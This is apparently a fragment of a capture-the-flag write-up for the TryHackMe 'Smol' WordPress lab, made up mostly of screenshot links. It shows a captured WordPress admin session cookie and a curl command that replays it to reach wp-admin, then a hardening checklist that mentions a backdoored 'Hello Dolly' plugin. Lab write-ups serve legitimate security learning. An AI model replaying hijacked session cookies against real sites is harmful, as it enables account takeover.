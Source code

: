 ![](https://velog.velcdn.com/images/agnusdei1207/post/1d998ee7-0c88-412b-b447-5103a27aa833/image.png)

# Cookie Hijacking

![](https://velog.velcdn.com/images/agnusdei1207/post/f69cf5b3-c40e-4218-8d4c-afd383ab1e87/image.png)

# cookie (total 2)

Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070

# request test with cookie -> success

curl -i -L -H "Cookie: wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_45a7e4c82b517c5af328feabce4d0187=wpuser%7C1753668949%7CcPTwzE1cbFpF18C6ZZZnuwRE0D2eRXISGnrDPvbQcBv%7Cccf2b309c5881393194d94ea8fc1ff5c9b3a8324cfc1282e423f89ccc74ee070" -H "User-Agent: Mozilla/5.0" http://www.smol.thm/wp-admin/

# 사이트 탐색 중 시스템 접근을 위한 데이터 수집

![](https://velog.velcdn.com/images/agnusdei1207/post/b6ccdc9b-2df6-4ca3-a428-a4277f4f3dc4/image.png)
![](https://velog.velcdn.com/images/agnusdei1207/post/477f28cf-9889-4aef-8be6-8cedd95d97b1/image.png)
![](https://velog.velcdn.com/images/agnusdei1207/post/b2331716-58bb-4853-864a-5c8847a2f124/image.png)

1- [IMPORTANT] Check Backdoors: Verify the SOURCE CODE of "Hello Dolly" plugin as the site's code revision.

2- Set Up HTTPS: Configure an SSL certificate to enable HTTPS and encrypt data transmission.

3- Update Software: Regularly update your CMS, plugins, and themes to patch vulnerabilities.

4- Strong Passwords: Enforce strong passwords for users and administrators.

5- Input Validation: Validate and sanitize user inputs to prevent attacks like SQL injection and XSS.

6- [IMPORTANT] Firewall Installation: Install a web application firewall (WAF) to filter incoming traffic.

7- Backup Strategy: Set up regular backups of your website and databases.

8- [IMPORTANT] User Permissions: Assign minimum necessary permissions to users based on roles.

9- Content Security Policy: Implement a CSP to control resource loading and prevent malicious scripts.

10- Secure File Uploads: Validate file types, use secure upload directories, and restrict execution permissions.
